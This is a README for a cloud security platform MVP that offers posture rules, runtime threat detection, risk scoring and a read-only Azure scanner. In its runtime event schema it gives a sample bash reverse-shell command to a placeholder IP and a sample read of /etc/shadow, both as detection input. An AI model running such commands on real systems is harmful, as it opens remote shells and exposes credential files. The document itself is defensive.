

# CloudSecurity: runtime-first CNAPP (MVP)

A cloud security platform MVP inspired by runtime-first CNAPPs such as Upwind. It combines:

- **Asset inventory**: VMs, storage accounts, AKS clusters and pods, SQL servers and databases, NSGs, identities, key vaults, function apps and subscriptions, with region, tags, internet exposure, data sensitivity and relationships.
- **Posture management (CSPM)**: a declarative rules engine with 21 rules mapped to CIS Azure and CIS AKS controls. Each finding has a status of open, resolved or suppressed.
- **Vulnerabilities with runtime context**: CVEs on packages are ranked by a risk score that combines CVSS with whether the package is loaded at runtime, internet exposure, sensitive-data reach and exploit availability. The UI shows a **noise-reduction** stat.
- **Runtime threat detection (CDR)**: a runtime event feed plus 8 detection rules (reverse shell, crypto miner, known-malicious IP, shell in a container, privilege escalation, credential-file access, unexpected outbound connection, IMDS token theft). Each rule maps to MITRE ATT&CK, and each alert has an event timeline.
- **Attack paths**: a risk graph covering Internet → exposed resource → vulnerable workload → identity → sensitive data, with the top paths ranked.
- **Dashboard**: overall risk score, findings by severity, top risks, alerts over time and a compliance summary.
- **Simulated data mode (on by default)**: a seeded "Contoso" environment across three Azure-style subscriptions, plus a background simulator that emits live runtime events.
- **Real Azure posture connector (opt-in, read-only)**: uses the azure-identity and azure-mgmt-* SDKs. A "Run scan" button merges the results into the same model with `source="azure"`.
- **Pluggable connectors** and a documented **runtime sensor ingest API** so a real eBPF sensor, AWS or GCP can be added later.

## Architecture



```
backend/
  app/
    main.py              FastAPI app, lifespan (seeding + simulator)
    config.py            env-var settings
    models.py            Asset, Relationship, Finding, Vulnerability, RuntimeEvent, Alert, ScanRun
    schemas.py           Pydantic v2 schemas (includes the runtime event schema)
    engine/
      posture.py         declarative CSPM rules + CIS mappings
      detection.py       CDR detection rules + MITRE mapping
      risk.py            vulnerability risk score, noise reduction, overall risk score
      attack_paths.py    graph traversal and path scoring
    connectors/
      base.py            Connector interface + records
      simulated.py       seed generator + attack scenarios
      azure.py           read-only Azure scanner (ReadOnlyClient guard)
    services/            ingest, runtime, scans, simulation, analytics
    api/                 routers
  tests/                 pytest suite (65 tests)
frontend/                React + Vite + TypeScript + Tailwind + Recharts
docker-compose.yml
```

## Quick start

### With Docker

```bash
cp .env.example .env        # optional; defaults to simulated mode
docker compose up --build
```

- UI: http://localhost:5173
- API docs: http://localhost:8000/docs

### Without Docker

Backend (Python 3.11+):

```bash
cd backend
python3 -m venv .venv && source .venv/bin/activate
pip install -r requirements-dev.txt
uvicorn app.main:app --reload --port 8000
```

Frontend (Node 20+), in a second terminal:

```bash
cd frontend
npm install
npm run dev                 # http://localhost:5173 (proxies /api to :8000)
```

Run the tests and the production build:

```bash
cd backend && pytest
cd frontend && npm run build
```

On first start, simulated mode seeds the database (`backend/cnapp.db`) and backfills 24 hours of runtime events. To start fresh, delete the DB file.

## Configuration (env vars)

| Variable | Default | Description |
|---|---|---|
| `DATABASE_URL` | `sqlite:///./cnapp.db` | SQLAlchemy URL |
| `SIMULATION_MODE` | `true` | Seed the simulated environment when the DB is empty |
| `SIMULATOR_ENABLED` | `true` | Run the background runtime-event simulator |
| `SIMULATOR_INTERVAL_SECONDS` | `15` | Seconds between simulator ticks |
| `SIMULATOR_ATTACK_PROBABILITY` | `0.05` | Chance that a tick plays out an attack scenario |
| `SEED` | `42` | Deterministic seed for generated data |
| `RUNTIME_INGEST_TOKEN` | *(empty)* | If set, sensors must send `Authorization: Bearer <token>` |
| `CORS_ORIGINS` | `http://localhost:5173` | Comma-separated allowed origins |
| `AZURE_TENANT_ID` | | Entra ID tenant |
| `AZURE_CLIENT_ID` | | Service principal app ID |
| `AZURE_CLIENT_SECRET` | | Service principal secret |
| `AZURE_SUBSCRIPTION_IDS` | | Comma-separated subscriptions to scan |
| `AZURE_USE_DEFAULT_CREDENTIAL` | `false` | Use `DefaultAzureCredential` (az login, managed identity) when no secret is set |

## Connecting a real Azure environment (read-only)

1. Create a least-privilege service principal with the built-in **Reader** role:

```bash
az login
SUB_ID=$(az account show --query id -o tsv)

az ad sp create-for-rbac \
  --name cloudsecurity-cnapp-reader \
  --role Reader \
  --scopes /subscriptions/$SUB_ID
# Output: appId -> AZURE_CLIENT_ID, password -> AZURE_CLIENT_SECRET, tenant -> AZURE_TENANT_ID
```

2. To scan more subscriptions, grant Reader on each one:

```bash
az role assignment create --assignee <appId> --role Reader --scope /subscriptions/<other-sub-id>
```

3. Optional: grant Reader at a management group to cover many subscriptions:

```bash
az role assignment create --assignee <appId> --role Reader \
  --scope /providers/Microsoft.Management/managementGroups/<mg-id>
```

4. Put the values in `.env`, which is git-ignored, and restart the backend:

```bash
AZURE_TENANT_ID=<tenant>
AZURE_CLIENT_ID=<appId>
AZURE_CLIENT_SECRET=<password>
AZURE_SUBSCRIPTION_IDS=<sub-id-1>,<sub-id-2>
```

5. Open **Connectors & scans** and click **Run scan**, or call `POST /api/scans` with `{"connector":"azure"}`. Results appear in the inventory and findings with `source=azure`. A re-scan resolves findings that now pass.

What the scanner checks:

- **Storage**: public blob access, HTTPS-only, minimum TLS version.
- **NSGs**: inbound rules allowing 0.0.0.0/0 on 22, 3389 or any port.
- **VMs**: public IPs; no ADE, encryption-at-host or CMK.
- **SQL**: public network access, auditing disabled, a 0.0.0.0–255.255.255.255 firewall rule.
- **Key Vault**: soft delete and purge protection.
- **AKS**: RBAC disabled, public API server without authorized IP ranges.
- **Function apps**: HTTPS-only.
- **Identities**: Owner or Contributor at subscription scope.
- **Subscription**: owner and contributor counts.

Relationships come from NICs (VM↔NSG), VM identities, and RBAC role assignments (identity → data store). Data stores are marked sensitive through tags such as `data-classification`, `classification`, `sensitivity` or `data`. Key vaults and SQL are always treated as sensitive.

**Read-only guarantee:** every SDK client is wrapped in `ReadOnlyClient`, which only allows `list*` and `get*` operations and raises `ReadOnlyViolation` on anything else (`begin_*`, `create*`, `update`, `delete`, ...). Tests enforce this, and the Reader role enforces it again on the Azure side.

## Runtime sensor event schema

Sensors push events to `POST /api/runtime/events`. The endpoint accepts a single object or an array of up to 1,000. The full JSON schema is at `GET /api/runtime/schema`.

```jsonc
{
  "timestamp": "2026-10-14T12:00:00Z",          // optional; defaults to receipt time
  "asset_id": "/subscriptions/.../pods/web-1",  // inventory asset id (ARM id / pod id)
  "event_type": "process_exec",                 // process_exec | network_connection | file_access | privilege_escalation
  "sensor_id": "node-7-ebpf",
  "process":   {"name": "bash", "cmdline": "bash -i >& /dev/tcp/1.2.3.4/4444 0>&1",
                "pid": 4242, "ppid": 1, "parent_name": "java", "user": "app", "uid": 1000},
  "network":   {"direction": "outbound", "protocol": "tcp", "dst_ip": "1.2.3.4", "dst_port": 4444},
  "file":      {"path": "/etc/shadow", "operation": "read"},
  "privilege": {"from_uid": 1000, "to_uid": 0, "method": "setuid"},
  "container": {"id": "abc123", "name": "web", "image": "acr.io/web:1.2", "pod": "web-1", "namespace": "shop"},
  "labels":    {"node": "aks-node-7"}
}
```

Example:

```bash
curl -X POST localhost:8000/api/runtime/events \
  -H 'Content-Type: application/json' \
  -d '{"event_type":"network_connection","network":{"dst_ip":"185.220.101.47","dst_port":443}}'
```

The response lists the alerts triggered. Repeated hits of the same rule on the same asset within 30 minutes are grouped into one alert.

## Risk scoring

```
risk = 100 × (cvss/10) × runtime × context
runtime = 1.0 if the package is loaded at runtime, else 0.2
context = 0.4 + 0.25·internet_exposed + 0.20·exploit_available + 0.15·sensitive_data_access
```

A dormant vulnerability can never score above 20. An in-use, exposed vulnerability with CVSS ≥ 5 always scores at least 32.5, so it ranks above any dormant one. **Noise reduction** is the share of vulnerabilities in packages that are not loaded at runtime.

## Extending

- **New cloud provider**: implement `app/connectors/base.py::Connector` (`is_configured`, `collect`) and register it in `app/connectors/__init__.py`. Normalize resources onto the existing asset types and property names so the posture rules apply unchanged, or add rules for new types.
- **New posture rule**: add a function decorated with `@rule(...)` in `app/engine/posture.py`.
- **New detection**: add a function decorated with `@detection(...)` in `app/engine/detection.py`.

## Security notes

- No secrets are committed. Only `.env.example` is tracked; `.env`, `*.pem`, `*.key` and local DB files are git-ignored.
- The Azure connector is strictly read-only (Reader role plus the code-level guard).
- The MVP API has **no user authentication**. Run it locally or behind an authenticating reverse proxy. Set `RUNTIME_INGEST_TOKEN` before exposing the ingest endpoint.
- Do not commit the SQLite DB if you have run real scans; it contains your cloud inventory.

## Roadmap

- Real **eBPF runtime sensor** (Tetragon or Falco style) feeding `/api/runtime/events`, plus real loaded-package detection for runtime vulnerability context.
- **AWS** and **GCP** connectors.
- **DSPM**: data discovery and classification instead of tag-based sensitivity.
- **API security**: discovery of exposed APIs and runtime API traffic analysis.
- **CI/CD shift-left**: IaC scanning and image scanning in pipelines, linked to the runtime findings.
- Authentication, RBAC and multi-tenancy; Postgres; a real vulnerability scanner feed (for example Trivy or Grype); more CIS controls.

## Limitations (MVP)

- Vulnerability data and runtime events in simulated mode are synthetic. The Azure connector covers posture only; it has no runtime or CVE data.
- CIS control numbers are approximate mappings for illustration.
- SQLite and in-process background threads mean a single process; this is not built for scale.
